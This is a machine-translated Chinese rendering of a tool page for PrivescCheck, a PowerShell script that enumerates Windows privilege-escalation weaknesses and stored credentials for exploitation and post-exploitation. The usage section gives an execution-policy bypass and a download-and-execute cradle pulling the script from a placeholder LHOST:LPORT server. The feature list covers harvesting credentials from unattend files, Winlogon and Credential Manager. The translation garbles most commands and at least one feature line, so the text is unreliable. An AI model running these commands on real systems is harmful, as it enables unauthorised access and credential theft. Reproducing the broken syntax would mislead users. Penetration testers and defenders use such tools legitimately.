 # prives check:Windows 权限提升枚举脚本

> 原文：<https://kalilinuxtutorials.com/privesccheck/>

[![PrivescCheck : Privilege Escalation Enumeration Script for Windows](img//a2073825ec46762ce086f870eba3ecef.png "PrivescCheck : Privilege Escalation Enumeration Script for Windows")](https://1.bp.blogspot.com/-yqgvj62YOAg/XmDawnmWc1I/AAAAAAAAFUM/9UO_Wk-gHvIE_MnzUWT00xZ_xnQN9nFZgCLcBGAsYHQ/s1600/Privilege%2BEscalation%2BEnumeration%2BScript%2BFor%2BWindows.png)

**prives check**脚本旨在**列举常见的 Windows 安全错误配置**，这些错误配置可用于权限提升，**收集可能对**利用**和/或**后利用**有用的各种信息**。

我建立在 [@harmj0y](https://twitter.com/harmj0y) 和[@ matti festigation](https://twitter.com/mattifestation)在[加电](https://github.com/HarmJ0y/PowerUp)中所做的惊人工作的基础上。我增加了更多的检查，并试图减少误报的数量。

它仍然是一项正在进行的工作，因为我还想实现一些检查，但它已经相当完整了。如果你有任何建议(改进、特性)，欢迎随时在 Twitter 上联系我 [@itm4n](https://twitter.com/itm4n) 。

**用途**

*   在 PowerShell 提示符下使用脚本。

PS C:\ Temp \ > Set-execution policy Bypass-Scope Process-Force
PS C:\ Temp \>。。\ Invoke-prives check . PS1；调用权限检查

*   显示输出，同时写入日志文件。

PS C:\Temp\ >。。\ Invoke-prives check . PS1；invoke-prives check | Tee-Object " C:\ Temp \ result . txt "

*   在 CMD 提示符下使用该脚本。

**C:\Temp\ > powershell -ep 旁路-c”。。\ Invoke-prives check . PS1；Invoke-PrivescCheck"**

*   从 web 服务器导入脚本。

**C:\ Temp \>powershell“IEX(新对象网。WebClient)。download string(' http://LHOST:LPORT/Invoke-privesccheck . PS1 ')；Invoke-PrivescCheck"**

*   **又一个 Windows 权限提升工具，为什么？**

我非常喜欢 [PowerUp](https://github.com/HarmJ0y/PowerUp) ，因为它可以非常快速地枚举常见漏洞，并且不使用任何第三方工具。问题是现在已经好几年没更新了。另一个问题是，这些年来我发现了很多次，它有时会返回令人困惑的误报。

GitHub 上还有其他工具，但是它们不太完整或者有太多的依赖关系。例如，它们依赖 WMI 调用或其他命令输出。

因此，我决定根据以下限制来编写自己的脚本:

*   **不得使用 SysInternals 的第三方工具**，如`**accesschk.exe**`。
*   **不得使用内置的 Windows 命令**，如`**whoami.exe**`或`**netstat.exe**`。这样做的原因是，我希望我的脚本能够在实施 AppLocker(或任何其他应用程序白名单解决方案)的环境中运行。
*   **它不能使用内置的 Windows 工具**，例如`**sc.exe**`或`**tasklist.exe**`，因为如果你试图在 **Windows Server 2016/2019** 上使用它们，你经常会得到一个**访问被拒绝**的错误。
*   **它不能使用 WMI** ，因为它的使用可能仅限于管理员用户。
*   最后但同样重要的是，它必须兼容 **PowerShell 版本 2** 。

**亦读-[XCTR 黑客工具 2020](https://kalilinuxtutorials.com/xctr-hacking/)**

**解决所有约束…**

*   **第三方工具**

我没有可取之处，我重用了一些 [@harmj0y](https://twitter.com/harmj0y) 和[@ matti festigation](https://twitter.com/mattifestation)做的代码。事实上，PowerUp 有一个非常强大的功能，叫做`Get-ModifiablePath`，它检查给定文件路径的 ACL，以查看当前用户是否对该文件或文件夹具有写权限。我稍微修改了一下这个函数，以避免一些误报。在此之前，像`/svc`这样的服务命令行参数可以被识别为易受攻击的路径，因为它被解释为`C:\svc`。我的另一个贡献是我做了一个*注册表兼容的*版本的这个函数(`Get-ModifiableRegistryPath`)。

*   **Windows 内置的 Windows 命令/工具**

在可能的情况下，我很自然地将它们替换成了内置的 PowerShell 命令，比如`Get-Process`。在其他情况下，比如`netstat.exe`，您不会获得像使用基本 PowerShell 命令那样多的信息。例如，使用 PowerShell，可以很容易地列出 TCP/UDP 侦听器，但是没有简单的方法来获取相关的进程 ID。在这种情况下，我必须调用 Windows API 函数。

*   **WMI**

你可以通过 WMI 获得大量信息，太棒了！但是，如果您面对的是一台经过适当加固的机器，那么对该接口的访问将会受到限制。所以，我不得不寻找变通办法。又来了**注册表**！常见的检查是基于一些注册表项，但它有更多的提供。最好的例子是服务业。只需浏览注册表，您就可以获得关于每个服务的所有信息(显然除了它们的当前状态)。与依赖于访问**服务控制管理器**的`sc.exe`或`Get-Service`相比，这是一个巨大的优势。

*   **PowerShellv2 支持**

这并不容易，因为新版本的 PowerShell 有非常方便的功能或选项。例如，`Get-LocalGroup`函数不存在，并且`Get-ChildItem`在 PowerShellv2 中没有`-Depth`选项。所以，你必须想办法解决这些小而耗时的问题。

**特性**

*   **当前用户**

**Invoke-user check–获取当前用户的用户名和 SID
Invoke-UserGroupsCheck–枚举当前用户所属的组，默认组和低特权组除外
Invoke-UserPrivilegesCheck–枚举当前用户令牌的高潜在特权**

*   **服务**

-Invoke-InstalledServicesCheck–枚举非默认服务
-Invoke-servicespermissioncheck–枚举当前用户可以通过服务控制管理器修改的服务
-Invoke-servicespermissionregistrycheck–枚举当前用户可以在注册表中修改的服务
-Invoke-ServicesImagePermissionsCheck–枚举所有具有可修改二进制文件(或参数)的服务
-Invoke-ServicesUnquotedPathCheck–枚举具有可以利用的未引用路径的服务

*   **Dll 劫持**

**Invoke-dllhijjackingcheck–检查任何系统路径文件夹是否可修改**

*   **程序**

**-Invoke-InstalledProgramsCheck-枚举默认情况下没有安装的应用程序
-Invoke-ModifiableProgramsCheck-枚举拥有可修改的 DLL 文件 EXE 的应用程序
-Invoke-RunningProcessCheck-枚举正在运行的进程**

*   **凭证**

-Invoke-SamBackupFilesCheck–检查 SAM/系统备份文件的常用位置
-Invoke-Unattend files check–枚举无人参与文件并提取凭据
-Invoke-Winlogon check–检查存储在 Winlogon 注册表项中的凭据
-Invoke-CredentialFilesCheck–列出存储在当前用户 AppData 文件夹中的凭据文件
-Invoke-VaultCredCheck–枚举保存在凭据管理器中的凭据
-Invoke-VaultListCheck–枚举保存在凭据管理器中的 web 凭据
-Invoke-Invoke-Invoke-Invoke

*   **注册表**

-Invoke-UacCheck-检查是否启用了 UAC(用户访问控制)-Invoke-LAPS check-检查是否启用了 LAPS(本地管理员密码解决方案)
-Invoke-PowershellTranscriptionCheck-检查是否配置/启用了 PowerShell 转录
-Invoke-registrayalysinstallelevatedcheck-检查注册表中是否设置了 AlwaysInstallElevated 项
-Invoke-lsaprotationscheck-检查 LSASS 是否作为受保护的进程运行(+附加检查)

*   网络

-Invoke-TcpEndpointsCheck–枚举本地计算机上的异常 TCP 端点(IPv4 和 IPv6)
-Invoke-UdpEndpointsCheck–枚举本地计算机上的异常 UDP 端点(IPv4 和 IPv6)

*   **杂项**

-Invoke-windows updatecheck-检查机器的上次更新时间-Invoke-SystemInfoCheck-获取操作系统的名称和完整版本字符串
-Invoke-LocalAdminGroupCheck-枚举默认本地管理组的成员
-Invoke-MachineRoleCheck-获取机器的角色(工作站、服务器、域控制器)
-Invoke-SystemStartupHistoryCheck-获取系统启动事件列表-Invoke-SystemStartupCheck-获取上次系统启动时间
-Invoke-SystemDrivesCheck-获取

[**Download**](https://github.com/itm4n/PrivescCheck)